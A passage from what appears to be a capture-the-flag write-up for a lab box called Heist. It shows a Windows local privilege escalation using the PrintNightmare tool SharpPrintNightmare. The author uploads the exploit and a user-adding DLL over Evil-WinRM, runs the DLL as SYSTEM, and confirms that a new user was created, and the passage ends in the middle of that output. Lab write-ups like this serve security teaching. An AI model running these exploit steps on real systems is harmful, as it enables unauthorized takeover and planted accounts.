 
#### LPE

I’ll copy that `.exe` back to my Linux VM. I’ll upload both the `.exe` and the
`.dll` to Heist (though I could also host the `.dll` on an SMB share like in
the previous):

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/SharpPrintNightmare/AddUserDll.dll
    Info: Uploading /opt/SharpPrintNightmare/AddUserDll.dll to C:\programdata\AddUserDll.dll
                                                                 
    Data: 13652 bytes of 13652 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> upload /opt/SharpPrintNightmare/SharpPrintNightmare.exe
    Info: Uploading /opt/SharpPrintNightmare/SharpPrintNightmare.exe to C:\programdata\SharpPrintNightmare.exe
                                                                 
    Data: 18432 bytes of 18432 bytes copied
    
    Info: Upload successful!
    

Now I just run `SharpPrintNightmare.exe` passing it the path to the DLL to run
as SYSTEM:

    
    
    *Evil-WinRM* PS C:\programdata> .\SharpPrintNightmare.exe \programdata\AddUserDll.dll
    [*] pDriverPath C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\mxdwdrv.dll
    [*] Executing \programdata\AddUserDll.dll
    [*] Try 1...
    [*] Stage 0: 0
    [*] Try 2...
    [*] Stage 0: 0
    [*] Stage 2: 0
    [+] Exploit Completed
    

0xdf has been added:

    
    
    *Evil-WinRM* PS C:\programdata> net user 0xdf
    User name                    0xdf
    Full Name
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            7/8/2021 8:18:24 AM
    Password expires             Never
    Password changeable          7/8/2021 8:18:24 AM
    Password required            Yes
    User may change password     Yes
    